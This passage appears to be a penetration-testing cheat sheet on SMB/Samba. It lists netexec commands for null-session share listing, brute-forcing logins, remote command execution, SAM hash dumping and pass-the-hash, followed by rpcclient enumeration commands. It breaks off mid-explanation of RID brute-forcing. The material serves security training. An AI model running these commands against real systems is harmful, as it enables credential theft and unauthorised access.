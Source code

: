 #### Configuration

- `/etc/samba/smb.conf` to change settings
- Dangerous settings:
  - `browseable - yes`: Allow listing available shares in the current share

#### Interaction

- `netexec`

  ```bash
  # List shares
  nxc smb [IP] -u '' -p '' --shares	
  # Download downloadable files
  nxc smb [IP] -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
  # Get the password policy, if the Account Lockout Threshold is None brute forcing is possible
  nxc smb [IP] -u '' -p '' --pass-pol
  # Brute-forcing on the two possible login methods
  nxc smb -u [USER_LIST] -p [PASS_LIST] -d [DOMAIN]
  nxc smb -u [USER_LIST] -p [PASS_LIST] --local-auth	# Also hydra
  
  # ----------ACTIVE DIRECTORY----------
  
  # Run command (also on multiple hosts at the same time)
  nxc smb [IP] -u [USER] -p '[PASS]' -x 'whoami' --exec-method smbexec
  
  # Enumerating logged on Users
  nxc smb [IP] -u [USER] -p '[PASS]' --loggedon-users
  
  # Extract Hashes from SAM Database (administrative privileges)
  nxc smb [IP] -u [USER] -p '[PASS]' --sam
  
  # Log in with NTLM hashed password
  nxc smb [IP] -u [USER] -H [HASH]
  ```

- `rpccclient`

  ```bash
  rcpclient -U "user" [IP]	# -U'%' to anonymous login
  ```

  - `srvinfo`  Server information.
  - `enumdomains`  Enumerate all domains that are deployed in the network.
  - `querydominfo`  Provides domain, server, and user information of deployed domains.
  - `netshareenumall`  Enumerates all available shares.
  - `netsharegetinfo <share>`  Provides information about a specific share.
  - `enumdomusers`  Enumerates all domain users.
  - `queryuser <RID>`  Provides information about a specific user.
  - `querydispinfo` Dispays descriptions of users (could be some ppassword in it)
  - `enumprinters`

  The query `queryuser <RID>` is mostly allowed based on the RID. So we can use the rpcclient to brute force the RIDs to get information. Because we may not know who has been assigned which RID, we know that  we will get information about it as soon as we query an assigned RID:
